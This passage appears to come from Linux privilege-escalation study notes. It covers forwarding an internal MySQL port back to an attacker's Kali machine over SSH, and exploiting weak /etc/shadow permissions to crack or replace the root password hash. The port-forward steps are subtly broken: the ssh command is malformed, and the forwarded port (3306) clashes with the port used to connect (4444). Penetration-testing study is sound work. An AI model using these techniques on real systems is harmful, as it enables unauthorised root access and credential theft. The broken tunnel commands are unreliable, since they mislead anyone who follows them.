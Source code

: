 * Now, the exploit code can now be run on your local machine on a arbitrary port of your choosing

#### Use Case:

MySQL is running internally on the compromised host (127.0.0.1:3306)

* How did we figure this out?

```
netstat -nl
tcp    0    127.0.0.1:3306    0.0.0.0:*    LISTEN
```

Port Forward:

```
ssh -R 127.0.0.1:3306 root<kali-machine>
```

* This will keep the connection open but will not throw you directly into a session
* Switch over to your Kali box and access MySQL on 4444

Instruct MySQL to connect to port forward:

```
mysql -u root -h 127.0.0.1 -P 4444
```

## Weak File Permissions

Certain system files can be taken advantage of to perform priv esc if the permissions on them are too weak.

If a system has confidential information we can read, it may be used to gain access to the root account.

If a system file can be written to, we may be able to modify the way the OS works and gain root access that way.

### /etc/shadow

This file contains the user password hashes and is not readable by any user except for root by default.

If we are able to read /etc/shadow, we can possibly crack the root user's password hash.

If we are able to modify the file, we can replace the root user's password hash with one we know.

* Note: /etc/shadow will come up as a writeable/readable file in automated tools!
  * However, it is still important to know how to do this manually:

#### Readable /etc/shadow

Verify vulnerable permissions:

```
ls -l /etc/shadow
#Example of readable/writeable /etc/shadow file
-rw-r--rw- 1 root shadow
```
